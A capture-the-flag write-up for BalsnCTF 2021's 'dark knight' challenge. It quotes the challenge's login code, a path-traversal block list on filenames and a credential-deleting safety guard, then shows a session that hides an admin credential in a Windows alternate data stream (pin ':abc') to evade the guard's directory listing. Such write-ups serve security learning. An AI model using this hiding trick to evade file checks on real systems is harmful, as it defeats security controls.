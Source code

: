 ```yaml
---
title: BalsnCTF 2021 - dark knight
---
```


# BalsnCTF 2021 - dark knight


# Challenge Description

dark knight

Category: Misc

Author: 424275

Verifier: nawmrofed(1hr)

Solves: 12 / 278

once upon the ime, there was a dark knight who kills every admin he met...

```markdown
nc darkknight.balsnctf.com 8084
```

# Inspection

From the provided challenge file, we know that our goal is to login with the username 'admin', then we will get the flag after entering the passcode 'plz'. 

```python
if username != None and password != None:
  print(f"hello, {username}.")
  if username == "admin":
      while True:
          x = input("do you want the flag? (y/n): ")
          if x == "n":
              print("OK, bye~")
              return
          elif x == "y":
              break
          else:
              print("invalid input.")
      while True:
          x = input("beg me: ")
          if x == "plz":
              print("ok, here is your flag: BALSN{flag is here ...}")
              break
```

There are two way to login, fast login and normal login. The normal login seems safe so we will check the fast login. We can see that there is a fast login that takes a pin code and retrieve the username and password from the file with the same name. 

```python
def fast_login():
    while True:
        pin = input("enter a pin code > ")
#... some checks on pin code
#...
				if "\\" in pin or "/" in pin or ".." in pin:
            print("what do you want to do?(¬_¬)")
            continue
#... some more checks on pin code
#...
    try:
        with open(pin, "r") as f:
            data = f.read().split("\n")
            if len(data) != 2:
                print("unknown error happened??")
                return None, None
            return data[0], data[1]
    except FileNotFoundError:
        print("this pin code is not registered.")
        return None, None
```

There is also a password manager that allow us to write our account into a file so we can login with those later. However, the server will check for all file in the directory, and delete all file that stores an admin account. 

```python
def safety_guard():
    print("safety guard activated. will delete all unsafe credentials hahaha...")
    delete_file = []
    for pin in os.listdir("."):
        safe = True
        with open(pin, "r") as f:
            data = f.read().split("\n")
            if len(data) != 2:
                safe = False
            elif len(data[0]) == 0 or len(data[1]) == 0:
                safe = False
            elif data[0].isalnum() == False or data[1].isalnum() == False:
                safe = False
            elif data[0] == "admin":
                safe = False

        if safe == False:
            os.remove(pin)
            delete_file.append(pin)
    
    print(f"finished. delete {len(delete_file)} unsafe credentials: {delete_file}")
```

# Solution

The idea will be to find a place to write the admin account without being listed by os.listdir() so that the file wouldn't be deleted. However, the black list on the file name also forced us to stay in the current directory, that means we need to find other ways to bypass the safe guard. I first tried to write directly to drive such as 'C:' but that leads to nothing, but we I was trying that, I notice some strange behaviors with the colon symbol ':'. After randomly trying different filenames, I got the flag out of pure chance

```
1. passord manager
2. login
3. exit
what do you want to do? > 1
use a short pin code to achieve fast login!!
enter a pin code > :abc
enter username > admin
enter password > 123
saved!!
1. passord manager
2. login
3. exit
what do you want to do? > 2
safety guard activated. will delete all unsafe credentials hahaha...
finished. delete 0 unsafe credentials: []
1. fast login
2. normal login
3. exit
enter login type > 1
enter a pin code > :abc
hello, admin.
do you want the flag? (y/n): y
beg me: plz
ok, here is your flag: BALSN{however_Admin_passed_the_Dark_knight_with_hiding_behind_Someone}
```

``` plaintext
flag: BALSN{however_Admin_passed_the_Dark_knight_with_hiding_behind_Someone}
```

I later learned that I'm writing into an alternate data stream (ads), which isn't a file, so os.listdir() couldn't find it. It seems like that windows ads have been abused by many to write hidden data into the system, and have suffer bad reputations because of that.
